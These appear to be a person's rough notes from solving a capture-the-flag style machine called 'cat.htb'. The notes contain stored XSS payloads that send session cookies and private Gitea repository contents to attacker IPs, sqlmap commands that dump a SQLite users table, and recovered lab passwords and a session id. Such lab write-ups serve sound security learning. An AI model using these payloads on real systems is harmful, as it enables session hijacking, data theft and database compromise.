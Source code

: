 probs need to login as an admin user or something like that 
any cookies?
look at the page source code
ffuf doesn't seem to reveal any subdomains / virtual hosts
ok what is the attack surface?
-> i can go after the cat login site 
-> there is an admin.php and config.php page
we might only be able to get information from config.php after logging in as an admin?
we can upload a photo but not sure what that does for us 
is there a way to view the image maybe

there is a /img folder
going to small.jpg says the error below 

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at cat.htb Port 80</address>
</body></html>


yea not sure what the attack surface is here in terms of file upload
- [ ] look at some 0xdf blog posts talking about stuff like jpg file upload attacks 

.git repo found
sql injection maybe 
accept_cat.php insert statement does not use prepare so it is probably vulnerable to an injection
maybe we can use sqlmap instead of doing manually 
accept_cat only called in admin.php file?
so maybe that's a second step not a first step 

axel is the admin username
can i make an account as axel lol 
ok, the thing i am missing right now is axel's password
the idea is
1) login as admin after getting axel's password 
2) sqlmap attack on the non-prepared sql statement to dumb the database
3) crack md5 hashes 


how to get axels' password? is there anything vulnerable with the session id? 
triple equal vs double equal in php?
https://stackoverflow.com/questions/80646/how-do-the-php-equality-double-equals-and-identity-triple-equals-comp
seems like double equal will pass the equality for 0's?'
maybe 0 doesnt matter

axel only:
- delete_cat.php
- accept_cat.php 
- admin.php
- view_cat.php
- vote.php (useless maybe)
- winners.php (useless maybe)

regular users: 
- config.php
- contest.php
- index.php
- join.php
- logout.php


the goal is to steal the PHPSESSIONID now 
but how to do that? we need to exploit an xss vulnerability; how do we know one is there in the username creation step? how do we know that axel will click on the link even?
okay, i guess this is a stored xss attack then 
since we save the <script>document.cookie </script> string inside the database
then when does it get retrieved by axel
the username should be rendered in one of the files in order for the xss to happen
view_cat.php and join.php both have username rendered i think 


okay, so the attack vector is: 
- [x] stored xss attack within username
    <script> let img = new Image(); img.src="http://10.10.14.8:8000/?=document.cookie""</script>
    something like this 
- [x] use the PHPSESSID to become admin
- [ ] run sqlmap on the accept_cat file for the parameter cat_name with the command:
    sqlmap -r sql_req.txt cat_name --risk 3 --level 5
    something like that
- [ ] try to dumb database for axel's password 


<script>let img = new Image(); img.src="http://10.10.14.8:8000/?c="+encodeURIComponent(document.cookie);</script>
4n6pjva97qnfj6b30604ebmjij


sqlmap -r sql-req.txt -p "cat_name" --batch --level=5 --risk=3

---
Parameter: catName (POST)
    Type: boolean-based blind
    Title: SQLite AND boolean-based blind - WHERE, HAVING, GROUP BY or HAVING clause (JSON)
    Payload: catName=asdf' AND CASE WHEN 7651=7651 THEN 7651 ELSE JSON(CHAR(101,72,88,101)) END AND
 'TNAP'='TNAP&catId=1
-

this was able to dump the database but why
sqlmap -r sql-req.txt -p catName --dbms sqlite --level 5 --risk 3 --technique=B -T users --dump

i need to dump a specific tablle and from the source code we can see a table called users
the query in view_cat.php indicates that there is indeed a table called users


rosa
soyunaprincesarosa
not sure how it would work for axel; might have to change their password or something?
ideas to test:
- [x] check for all users with the name rosa / groups that rosa belongs to 
- [x] look for stuff in /opt to see if there are extra packages maybe
    <-- there are none
- [ ] check for other running services on the box
    <-- seems like there is a service at 127.0.1.1, on port 80 but this just might be the web service itself
- [ ] check for specific network connections as well 
port 25 is talking to something?
how to ssh tunnel and talk to port 25?
how is this related to gittea? how did the other people know gittea was even running as a service? how did they find out about this wtf 
ok we need to look at credentials in the apache logs
found in apache2/access.log 

axel 
aNdZwgC4tI9gnVXv_e3Q

78087ea7900d52dee379fe8b0d5d6449

from netstat we can see that gittea is being hosted on port 3000 even through ps aux doesnt show it 
but there is no information on gittea even though it feels like a piece of the puzzle
where to go from here?
we know it's related to mail / snmp because port 25 is open
and i remember there being another xss vulnerability somewhere but not sure where
- [ ] look for jobert's email?
    <-- administrator@cat.htb?
    <-- jobert2020@gmail.com
        <-- probably not this one just because it's a gmail account

snmp does not appear to be running, so what is on port 25?
smtp (not snmp), which is running and we can check that with telnet
so now how do we interact with telnet?
yea i have no idea what the attack vector is for this
mail enumeration???
this feels so contrived
need to do more enumeration to know what the intended attack vector is
in the logs, there are instructions detailing how to craft a repo / email?
/var/mail directory has something

- [ ] send email to jobert@localhost with info about gitea repository 
<-- what information are we trying to exfiltrate from jobert in this situation?
<-- some repo called http://localhost:3000/administrator/Employee-management/
<-- http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md
    there is some README file 

    we need to create a phishing link that looks like this, but is redirected to our website
    but what we need is a password
    is there a way to get a shell from this?

idea: hijack session id and then is there a way to get a password?
can i do a reverse shell using xss?
would be hard just from them clicking a link i think 
link click to reverse shell? is this possible?
click the link, but then what?

1. swaks to generate a fake email
2. the email contains a link to our fake repo???
3. or would it be a link to localhost:3000 or something

the info is in /var/mail i guess
Not exactly what is shown above; instead we should create a repo and it should have an xss payload, but not sure what sort of data / cookies we are stealing?
ok so the administrator / Employee-management site is a private url 
1. create a repo with a README.md file containing xss code
    <-- what should this even look like 
2. embed javascript inside the README file s.t. it fetches and relays information from http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md
    <-- even though i should be able to visit this page, it seems i am unable to 
3. this should in theory contain credentials 


something like this
<a href="javascript:(async () => { 
  await fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md')
    .then(result => result.text())
    .then(data => { 
      let img = new Image(); 
      img.src = 'http://10.10.14.181/?c=' + encodeURIComponent(data);
    })
    .catch(err => console.error(err));
})()">Click Here</a>

the site gets deleted very quickly so best to automate instead
- [ ] post request: /repo/create 
- [ ] post request: /axel/<rep name>/_new/main/ afterwards
POST /axel/abv/_new/main/

the script isn't working and i'm not sure why; i wish i could render the web page to see what is going wrong tbh 
ok, this is hard to debug i'm going to try instead to do it manually i guess


<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(response => response.text()).then(data => fetch('http://10.10.14.181/?response=' + encodeURIComponent(data))).catch(error => console.error('Error:', error));">abc</a>


GET/?response=<?php
$valid_username = 'admin';
$valid_password = 'IKw75eR0MR7CMIxhH0';

if (!isset($_SERVER['PHP_AUTH_USER']) || !isset($_SERVER['PHP_AUTH_PW']) || 
    $_SERVER['PHP_AUTH_USER'] != $valid_username || $_SERVER['PHP_AUTH_PW'] != $valid_password) {
    
    header('WWW-Authenticate: Basic realm="Employee Management"');
    header('HTTP/1.0 401 Unauthorized');
    exit;
}

header('Location: dashboard.php');
exit;
?>

HTTP/1.1"200-
